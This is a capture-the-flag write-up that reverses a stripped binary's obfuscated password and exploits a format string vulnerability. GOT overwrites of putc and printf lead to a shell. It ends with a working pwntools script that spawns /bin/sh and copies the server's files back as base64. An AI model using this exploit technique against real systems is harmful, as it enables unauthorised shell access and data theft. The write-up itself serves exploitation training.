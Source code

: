 ## CTF Challenge Writeup

### Step 1: Run `file` and `checksec` on the given binary

![image](includes/images/file.png)

On running `file` on the executable we infer that it is a 64-bit binary, dynamically linked and stripped. Since it is stripped, we need the help of a decompiler to analyze it.

![image](includes/images/checksec.png)

On running `checksec` we infer that it has 
- canaries and NX are enabled (NX being enabled means we can't use a shellcode).
- partial relro and pie disabled.
This hints that there might be a format string vulnerablity.

### Step 2: Run the executable and decompile it using Ghidra

![image](includes/images/run.png)

We see that the executable asks for a password and gives a 4 sec window to enter the password. 

![image](includes/images/check_fsv.png)

We check whether the password field has a format string vulnerability. But it doesn't.

![image](includes/images/decompile_entry.png)

We decompile it with Ghidra. Since the executable is stripped, Ghidra shows the entry function. The first parameter of the `__libc_start_main` function is the main function. We can rename it as such.

![image](includes/images/main.png)

The main function has 3 functions FUN_00401216(), FUN_00401259(), FUN_00401448() (function FUN_00401230() is a callback to handle the alarm() and does nothing interesting)

![image](includes/images/print.png)

FUN_00401216() just prints.

![image](includes/images/pass.png)

FUN_00401259() asks for the password. On first look we can say that this function obfuscates the input password and compares it to `cLVQjFMjcFDGQ`. Rename as `pass()`

![image](includes/images/init.png)

FUN_00401448() is executed after the password is verified and this function does something interesting. This function has a format string vulnerability just below `printf("hello");` and then there is a system function that only lists the files in the server. Rename as `init()`

Based on these observations we can decide our course of action
- first, we reverse the password in the pass() function.
- second, we use the format string vulnerability to overwrite some libc function with the address of the init() function so that it loops arround and exploit the format string vuln as many times as required. We choose the putc function to overwrite and when the function loops back, we use format string vuln to overwrite the the GOT table entry of printf() with system so that in the next looping, we can enter `/bin/sh`. This converts the printf(s) to essentially work like system("/bin/sh").


### Step 3: Reversing the password

We shall rename few variables to analyze the pass() function

![image](includes/images/pass_rename.png)


__Note__ : Due to presence of `input[10]` and fgets() that writes upto 32 bytes we might think that there is a bof vulnerability but from the listing window we confirm that bof is not a possibility as the `input` is placed 0x38 bytes above the rbp as shown below.
![image](includes/images/note.png)


We notice that some kind of ascii manipulation is done on each character of the input password string and then xor-ed against 0x35 (=53) to get another string which is compared to ``.

![image](includes/images/peculiar.png)

Observe this peculiar line. Generally, modulo (%) operation when decompiled produces a code similar to this. A rule of thumb is that `(x / divisor) * -divisor` hints at a modulo operation involved.
Thus this line is essentially `iVar1 % 26`

On closer analysis the ascii manipulation is actually a Caesar cipher with shift = 10.

![image](includes/images/shift_and_x.png)


So the input is first Caesar ciphered and then xor-ed character by character. 
We can reverse the xor using `xor()` from pwntools.

![image](includes/images/xor_reverse.png)

We can reverse the Caesar cipher using this function. Passing this `Vycd_sx_Vsqrd` to the function we get the password "Lost_in_Light"

![image](includes/images/caesar_cipher_reverse.png)

### Step 4: Overwriting the GOT table entry of putc to init() and overwriting the GOT table entry of printf with value at the GOT address of system

To use the format string vulnerablity we need
- the offset at which the string that we control is present
- the GOT address of putc and printf() and init() address as well as value at the GOT address of system().

the offset can be found using GDB (use `handle SIGALRM nostop noprint` to ignore the SIGALARM) 

![image](includes/images/offset.png)

the offset is found to be 6 as the `ABCD`(0x44434241) appears at the 6 the position.

Using Ghidra we get the GOT address of putc = `0x00404048`and printf = `0x00404020` and init() function = `0x00401448` . Value at the GOT address of system = `0x00401060`.

![image](includes/images/system_printf.png)

![image](includes/images/putc.png)

![image](includes/images/init_addr.png)


### Step 5: Crafting the exploit

Also the presence of system("ls *.pdf") in init() suggests that the flag we are looking is in a pdf format. We are required to read the pdf from the server. In order to read we'll convert the pdfs to base64, receive the bytes, decode it from base64 and write it as local files.

So our final exploit looks like 

``` 
from pwn import *
context.binary = ELF("./check")
context.log_level = "debug"

OFFSET = 6

password = b"Lost_in_Light"

system_plt = 0x401060
init_addr = 0x401448
putc_got = 0x404048
printf_got = 0x404020

fmt1 = fmtstr_payload(offset=OFFSET, writes={putc_got: init_addr}, write_size="short")
fmt2 = fmtstr_payload(offset=OFFSET, writes={printf_got: system_plt}, write_size="short")

p = process("./check")

p.sendlineafter(b">>> ", password)
p.sendlineafter(b">>> ", fmt1)
p.sendlineafter(b">>> ", fmt2)

p.sendline(b"/bin/sh")

p.clean()

p.sendline("ls")

files = p.clean().decode().strip().split("\n")
for file in files:
  p.sendline(f"base64 {file}".encode())
  encoded_file = p.clean().decode()
  with open(file, "wb") as f:
      f.write(b64d(encoded_file))
```


